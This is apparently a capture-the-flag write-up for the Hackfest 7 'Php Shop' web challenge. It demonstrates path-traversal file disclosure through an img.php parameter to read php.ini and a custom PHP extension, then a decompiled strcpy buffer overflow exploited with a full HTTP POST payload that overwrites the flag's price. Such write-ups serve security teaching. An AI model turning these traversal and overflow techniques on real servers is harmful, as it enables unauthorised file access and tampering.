








# Overview

I made 4 tasks for Hackfest 7, 3 reverse engineering tasks and one web challenge. After the contest lots of players asked for writeups and here I am making them. Congrats for the qualifying top 15 teams and see you in the finals!



## Web - Php Shop (0 Solves / 500 points)

## Description



## Solution

When we first enter the page we are presented with this drug store sample page with different products, a current balance of 100$ a button to reset the session and owned items.



The flag is unfortunately 1337$ which is higher then our balance. Taking a look at the source code of the page we can see an interesting comment holding a link to the configuration of the server (phpinfo), aslo image tags hint to a local file disclosure bug. Here is part of the source code:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Drug Store</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <header>
    <h1>Drug Store</h1>
    <!--<h4><a href="phpinfo.php">Config</a></h4>-->
    <h3><a class="reset" href="index.php?res=1">Reset</a></h3>
  </header>
  <main>
  <div id="balance">Current Balance: 100 $</div>
  <div style="text-align: center; color: red; font-weight: bold;"> </div>
    <div class="product">
      <h2>Chocolate: 2 $</h2>
      <div>
         
      </div>
      <form method="POST" action="index.php">
         <input type="hidden" name="product" value="Chocolate">
         <button type="submit">Order Now</button>
      </form>
    </div>
```

We can start playing with the local file disclosure bug. Let's for example include the **index.php** file using this link `view-source:http://phpshop.challenges.hackfest.tn/img.php?img=../index.php`. Here is what we get:

```php

<?php
// I wanted to make shopping in my drug store even faster so I wrote a compiled php extension especially for that specific thing.

error_reporting(0);
session_start();

if ((isset($_GET["res"]) && ($_GET["res"] === "1")) || !isset($_SESSION["cash"])) {
	$_SESSION["cash"] = 100;

	if (isset($_SESSION["b"]))
		unset($_SESSION["b"]);

	$_SESSION["b"]["Chocolate"] = 0;
	$_SESSION["b"]["Camel"] = 0;
	$_SESSION["b"]["Coca"] = 0;
	header("Location: index.php");
	die();
}

if ($_SERVER["REQUEST_METHOD"] === "POST") {
	if (isset($_POST["product"]) && !empty($_POST["product"])) {
		$error = "";
		$res = shop($_POST["product"], $_SESSION["cash"]);
		if ($res === -2) {
			$error = "Insufficient Cash!";
		}
		else if (substr((string)$res, 0, 9) === "Hackfest{") {
			$_SESSION["b"]["Flag"] = $res;
		}
		else {
			$_SESSION["cash"] = $res;
			$_SESSION["b"][$_POST["product"]] += 1;
		}
	}
}
?>
<!DOCTYPE html>
<html>
<head>
  <title>Drug Store</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <header>
    <h1>Drug Store</h1>
    <!--<h4><a href="phpinfo.php">Config</a></h4>-->
    <h3><a class="reset" href="index.php?res=1">Reset</a></h3>
  </header>
  <main>
  <div id="balance">Current Balance: <?php echo (isset($_SESSION["cash"]) ? $_SESSION["cash"] : "100") . " $"; ?></div>
  <div style="text-align: center; color: red; font-weight: bold;"> <?php echo ($error ? $error : ""); ?></div>
    <div class="product">
      <h2>Chocolate: 2 $</h2>
      <div>
         
      </div>
      <form method="POST" action="index.php">
         <input type="hidden" name="product" value="Chocolate">
         <button type="submit">Order Now</button>
      </form>
    </div>
    <div class="product">
      <h2>Coca Cola: 3 $</h2>
      <div>
         
      </div>
      <form method="POST" action="index.php">
         <input type="hidden" name="product" value="Coca">
         <button type="submit">Order Now</button>
      </form>
    </div>
    <div class="product">
      <h2>Camel Blue: 10 $</h2>
      <div>
         
      </div>
      <form method="POST" action="index.php">
         <input type="hidden" name="product" value="Camel">
         <button type="submit">Order Now</button>
      </form>
    </div>
    <div class="product">
      <h2>Flag: 1337 $</h2>
      <form method="POST" action="index.php">
         <input type="hidden" name="product" value="Flag">
	 <button type="submit">Order Now</button>
      </form>
    </div>
  <?php
	if (isset($_SESSION["b"])) {
	    echo '<div id="myCart">Owned</div><br />';
	    echo '<ul id="cart">';
		foreach ($_SESSION["b"] as $k => $v) {
			echo "<li>{$k}: {$v}</li>";
		}
	    echo "</ul>\n</div>";
	}
  ?>
  </main>
</body>
</html>
```

Looking at the code there isn't really any interesting stuff nor we could spot any bugs but the comment at the top `// I wanted to make shopping in my drug store even faster so I wrote a compiled php extension especially for that specific thing.` with the call to the `shop` function without including any files. Those 2 things confirms the presence of a php extension that defines the `shop` function and that should be the next thing we look at. Opening the **phpinfo.php** page and inspecting the installed plugins and extensions we see a plugin with the name `My Shop`.



We need to find the path to that plugin so we can disclose it and start analyzing it. To do so, one can disclose the php.ini file to look at from where our custom extension is being loaded. There is an extension_dir variable at the phpinfo page but trying stuff on it wouldn't help getting it.



The path to the php.ini file is also present at the top of the phpinfo page.


Disclosing it with `view-source:http://phpshop.challenges.hackfest.tn/img.php?img=../../../../../../../../../usr/local/etc/php/php.ini` and looking at extension, by searching for `extension=` for example, we can spot our custom extension at the bottom of the page.



To get the extension we can simply disclose it then save it as a file. `http://phpshop.challenges.hackfest.tn/img.php?img=../../../../../../../../../MyShop.so`. Then we could open it with Ghidra for example as php extensions are just shared objects. These are the exported symbols from the shared objects:



The `zif_shop` function is the desired one from the name. Let's analyze it. Opening the function we can see in the middle of it calls to `strcmp` functions:

```c
  iVar2 = strcmp(__s1,"Chocolate");
  if (iVar2 == 0) {
    lVar4 = (long)*(int *)(__s1 + 0x550);
    lVar6 = local_140;
    if (lVar4 <= local_140) goto LAB_0010140f;
LAB_00101500:
    lVar6 = -2;
  }
  else {
    iVar2 = strcmp(__s1,"Coca");
    lVar6 = local_140;
    if (iVar2 == 0) {
      iVar2 = *(int *)(__s1 + 0x554);
    }
    else {
      iVar2 = strcmp(__s1,"Camel");
      if (iVar2 != 0) {
        if (*(int *)(__s1 + 0x55c) <= lVar6) {
          __stream = popen("echo \'ctf\' | su - ctf -c \'/readFlag\' 2> /dev/null","r");
          fgets(local_138,0x100,__stream);
          lVar6 = zend_strpprintf(0,&DAT_00102017,local_138);
          pclose(__stream);
          uVar1 = *(uint *)(lVar6 + 4);
          *param_2 = lVar6;
          *(uint *)(param_2 + 1) = (-(uint)((uVar1 & 0x40) == 0) & 0x100) + 6;
          goto LAB_0010141d;
        }
```

it's seems like it's going to read the flag after buying the flag using an executable at the root of the system called **readFlag** and it seems like only the ctf user can execute it / read it. You can confirm the read permissions by trying to disclose the **readFlag** executable. From that call we can understand that the product name is stored at `__s1` variable. Looking at where this variable is being used we get to this kind of structure allocated using `emalloc`.

```c
  __s1 = (char *)_emalloc_1536();
  *(undefined8 *)(__s1 + 0x550) = 0x300000002;
  *(undefined8 *)(__s1 + 0x558) = 0x5390000000a;
  __strcpy_chk(__s1,lVar4 + 0x18,0x600);
  iVar2 = strcmp(__s1,"Chocolate");
  if (iVar2 == 0) {
```

The product name is being stored at the top of the structure and prices of products are following the name starting at offset 0x550. There is a call to `strcpy` and it's copying the product name passed to the **shop** function.

```php
$res = shop($_POST["product"], $_SESSION["cash"]);
```

And it's copying 0x600 bytes which tells us that there is a buffer overflow letting us overwrite prices. We can simply then overwrite the flag price making it -1 for example (We can't overwrite the flag with nulls since `strcpy` stops on null bytes). To do so we can enter "A" * 0x550 to reach the first price of 2$ which is the price of the `Chocolate`. Prices here are integer of 4 bytes. So we can then enter "JUNK" 3 times to overwrite the first 3 prices and then enter `\xff\xff\xff\xff` to overwrite the flag price to -1$. The final payload is "A" * 0x550 + "JUNK" * 3 + "\xff" * 4:

```
POST /index.php HTTP/1.1
Host: phpshop.challenges.hackfest.tn
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://phpshop.challenges.hackfest.tn
Content-Type: application/x-www-form-urlencoded
Referer: http://phpshop.challenges.hackfest.tn/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0kinhc60mgkc5suus0lnf7q3to
Connection: close

product=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJUNKJUNKJUNK%ff%ff%ff%ff
```

And we get the flag:



# Rev - #TODO

